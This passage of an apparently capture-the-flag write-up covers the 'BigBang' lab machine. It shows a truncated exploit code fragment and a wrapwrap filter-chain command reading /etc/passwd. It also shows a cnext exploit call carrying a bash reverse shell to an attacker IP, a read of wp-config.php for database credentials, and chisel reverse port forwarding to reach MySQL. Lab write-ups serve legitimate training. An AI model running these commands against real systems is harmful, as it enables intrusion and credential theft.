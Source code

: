 ```python

@dataclass
class Region:
    """A memory region."""

    start: int
    stop: int
    permissions: str
    path: str

    @property
    def size(self) -> int:
        return self.stop - self.start


Exploit()
```
The chain is created with [wrapwrap]()
`python3 wrapwrap.py '/etc/passwd' 'GIF89a' '' 0`

Here is the full command to run the payload and get RCE `python3 cnext-exploit.py http://blog.bigbang.htb/wp-admin/admin-ajax.php "bash -c '/bin/bash -i >& /dev/tcp/10.10.14.6/7001 0>&1'"`

Now we are in a container. Get the information about the database.

`www-data@8e3a72b5e980:/var/www/html/wordpress$ cat wp-config.php `

```bash
# Content of wp-config.php file

/** Database username */
define( 'DB_USER', 'wp_user' );                                                              

/** Database password */
define( 'DB_PASSWORD', 'wp_password' );
                                                                                             
/** Database hostname */
define( 'DB_HOST', '172.17.0.1' ); 
```
There is no mysql client on the container so we have to forward port to localhost to be able to search the DB.
Using `chisel`, we can do so.

```bash
# Attacker machine
./chisel server --reverse -p 7001

# Compromised machine
./chisel client 10.10.14.6:7001 R:3306:172.17.0.1:3306
```
Using mysql, we can log into the mysql database

`mysql -u wp_user -h 127.0.0.1 -p `
